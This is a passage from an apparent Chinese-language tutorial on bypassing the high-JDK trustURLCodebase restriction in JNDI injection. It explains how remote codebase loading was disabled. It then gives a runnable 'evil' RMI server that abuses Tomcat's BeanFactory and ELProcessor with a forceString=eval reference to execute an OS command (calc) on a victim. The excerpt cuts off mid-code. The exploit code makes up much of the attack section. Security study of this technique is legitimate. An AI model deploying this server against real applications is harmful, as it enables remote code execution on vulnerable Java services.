 ```java
 return loadClass(className, cl);  
 } else {  
 return null;  
 }  
 }
```

### 旧版本行为

- 用 `getUrlArray(codebase)` 把 `codebase`（一串 URL）解析成 `URL[]`。
- 调用 `URLClassLoader.newInstance(urls, parent)` 创建类加载器。
- 用这个类加载器去加载 `className` 并返回 `Class<?>`。

也就是说**只要传来了一个远程 `codebase`，JVM 就会尝试下载并加载该 URL 下的类**。

### 新版本修复后的行为

增加了if判断，`trustURLCodebase`值为`true`才运行远程加载，但这个值默认为`false`

## 绕过方式

既然远程加载不行，那就使用本地加载，在服务端本地创建恶意class，该恶意 Factory 类必须实现 `javax.naming.spi.ObjectFactory` 接口，实现该接口的 getObjectInstance() 方法。

是因为JNDI 在解析返回对象时，期望远程对象（或 Reference 对象）能被某个实现了 `javax.naming.spi.ObjectFactory` 的类转换成可用的 Java 对象。

大佬找到的是这个 `org.apache.naming.factory.BeanFactory` 类，其满足上述条件并存在于 Tomcat8 依赖包中，应用广泛。该类的 `getObjectInstance()` 函数中会通过反射的方式实例化 Reference 所指向的任意 Bean Class(Bean Class 就类似于我们之前说的那个 CommonsBeanUtils 这种)，并且会调用 setter 方法为所有的属性赋值。而该 Bean Class 的类名、属性、属性值，全都来自于 Reference 对象，均是攻击者可控的。

需要添加依赖

```xml
<dependency>
<groupId>org.apache.tomcat</groupId>
<artifactId>tomcat-catalina</artifactId>
<version>8.5.56</version>
</dependency>
```

**恶意服务端代码 JNDIBypassHighJava.java**

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.StringRefAddr;  
import java.rmi.registry.LocateRegistry;  
import java.rmi.registry.Registry;  
  
// JNDI 高版本 jdk 绕过服务端  
public class JNDIBypassHighJava {  
    public static void main(String[] args) throws Exception {  
        System.out.println("[*]Evil RMI Server is Listening on port: 1099");  
 Registry registry = LocateRegistry.createRegistry( 1099);  
 // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory  
 ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "",  
 true,"org.apache.naming.factory.BeanFactory",null);  
 // 强制将'x'属性的setter从'setX'变为'eval', 详细逻辑见BeanFactory.getObjectInstance代码  
 ref.add(new StringRefAddr("forceString", "x=eval"));  
 // 利用表达式执行命令  
 ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +  
                ".newInstance().getEngineByName(\"JavaScript\")" +  
                ".eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));  
 System.out.println("[*]Evil command: calc");  
 ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);  
```